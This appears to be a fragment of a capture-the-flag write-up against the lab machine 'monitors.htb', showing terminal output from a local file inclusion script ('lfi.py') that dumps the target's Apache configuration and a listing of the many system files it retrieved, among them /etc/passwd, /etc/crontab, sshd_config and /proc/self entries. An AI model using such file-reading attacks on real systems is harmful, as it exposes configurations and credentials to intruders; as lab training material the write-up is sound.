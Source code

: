 ```
$ mkdir exfil
$ python3 lfi.py
/etc/php.ini
/etc/apache2/sites-available/000-default.conf
# Default virtual host settings
# Add monitors.htb.conf
...[snip]...
```

```
$ls
'\boot\grub\grub.cfg'                         '\etc\apache2\mods-enabled\mime.conf'            '\etc\fstab'            '\etc\login.defs'            '\etc\security\group.conf'                '\proc\meminfo'
'\boot\grub\menu.lst'                         '\etc\apache2\mods-enabled\negotiation.conf'     '\etc\fuse.conf'        '\etc\logrotate.conf'        '\etc\security\limits.conf'               '\proc\net\tcp'
'\etc\adduser.conf'                           '\etc\apache2\mods-enabled\status.conf'          '\etc\group'            '\etc\ltrace.conf'           '\etc\security\namespace.conf'            '\proc\net\udp'
'\etc\apache2\apache2.conf'                   '\etc\apache2\ports.conf'                        '\etc\group-'           '\etc\manpath.config'        '\etc\security\pam_env.conf'              '\proc\self\cmdline'
'\etc\apache2\envvars'                        '\etc\apache2\sites-available\000-default.conf'  '\etc\hdparm.conf'      '\etc\modules'               '\etc\security\sepermit.conf'             '\proc\self\fd\13'
'\etc\apache2\mods-available\autoindex.conf'  '\etc\bash.bashrc'                               '\etc\host.conf'        '\etc\mtab'                  '\etc\security\time.conf'                 '\proc\self\mounts'
'\etc\apache2\mods-available\deflate.conf'    '\etc\ca-certificates.conf'                      '\etc\hostname'         '\etc\mysql\my.cnf'          '\etc\sensors3.conf'                      '\proc\self\stat'
'\etc\apache2\mods-available\dir.conf'        '\etc\ca-certificates.conf.dpkg-old'             '\etc\hosts'            '\etc\networks'              '\etc\ssh\sshd_config'                    '\proc\self\status'
'\etc\apache2\mods-available\mime.conf'       '\etc\crontab'                                   '\etc\hosts.allow'      '\etc\os-release'            '\etc\sysctl.conf'                        '\proc\version'
'\etc\apache2\mods-available\proxy.conf'      '\etc\crypttab'                                  '\etc\hosts.deny'       '\etc\pam.conf'              '\etc\sysctl.d\10-console-messages.conf'  '\usr\share\adduser\adduser.conf'
'\etc\apache2\mods-available\setenvif.conf'   '\etc\debconf.conf'                              '\etc\issue'            '\etc\passwd'                '\etc\sysctl.d\10-network-security.conf'
'\etc\apache2\mods-available\ssl.conf'        '\etc\debian_version'                            '\etc\issue.net'        '\etc\passwd-'               '\etc\timezone'
'\etc\apache2\mods-enabled\alias.conf'        '\etc\default\grub'                              '\etc\kernel-img.conf'  '\etc\profile'               '\etc\updatedb.conf'
'\etc\apache2\mods-enabled\deflate.conf'      '\etc\deluser.conf'                              '\etc\ldap\ldap.conf'   '\etc\resolv.conf'           '\proc\cpuinfo'
'\etc\apache2\mods-enabled\dir.conf'          '\etc\dhcp\dhclient.conf'                        '\etc\ld.so.conf'       '\etc\security\access.conf'  '\proc\devices'
```
